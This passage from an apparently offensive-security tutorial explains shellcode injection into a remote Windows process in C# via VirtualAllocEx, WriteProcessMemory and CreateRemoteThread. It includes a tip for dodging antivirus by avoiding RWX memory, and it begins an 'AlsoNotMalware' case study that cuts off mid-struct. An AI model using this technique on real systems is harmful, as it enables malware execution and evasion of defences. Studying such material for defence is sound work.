 ```csharp
lpBaseAddress = VirtualAllocEx(
    hProcess, // Handle to the target process
    lpAddress, // Desired starting address, or NULL to let it decide
    dwSize, // Size of the memory region to allocate in bytes
    flAllocationType, // Type of memory allocation (Commit, Reserve, etc...)
    flProtect // Memory protection (Read/Write, Read/Write/Execute, etc...)
);

WriteProcessMemory(
    hProcess, // Handle to target process
    lpBaseAddress, // Where to write the data (value returned from VirtualAllocEx)
    lpBuffer, // Pointer to our shellcode
    nSize, // Size of the shellcode buffer
    *lpNumberOfBytesWritten // Pointer to a variable which will be set to number of bytes written
);

CreateRemoteThread(
    hProcess, // Handle to target process
    lpThreadAttributes, // Security descriptor for new thread, or NULL to let it decide
    dwStackSize, // Initial size of stack, or NULL to let it decide
    lpStartAddress, // Pointer to beginning of thread (value returned from VirtualAllocEx)
    lpParameter, // Pointer to variable to be passed to the thread, or NULL if there are none
    dwCreationFlags, // Flag which controls the thread creation
    lpThreadId // Pointer to a variable which will be set to the thread ID, or NULL if we don't care
);

```

In our case, we will additionally make use of [CreateProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) to spawn our target process, and [VirtualProtectEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex) so that we can initially allocate memory with `Read/Write` memory protection, write the shellcode and then set it to `Read/Execute` before executing. This is not necessary, but some antivirus solutions find it suspicious when `Read/Write/Execute` memory is allocated, so this is a simple workaround.

## Case Study: AlsoNotMalware

Let's open up `Visual Studio` and create a new `C# Console App (.NET Framework)` called `AlsoNotMalware`. Before we can use any of the `Windows API` functions we discussed above, we will need to import them. Similarly to `NotMalware`, we will use [P/Invoke](https://learn.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke), a technology which allows us to access functions in unmanaged libraries from our managed (C#) code. All in all, we will need the following definitions:

```csharp
using System;
using System.Runtime.InteropServices;

namespace AlsoNotMalware
{
    internal class Program
    {
        [StructLayout(LayoutKind.Sequential)]
        public struct PROCESS_INFORMATION
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public int dwProcessId;
            public int dwThreadId;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_BASIC_INFORMATION
```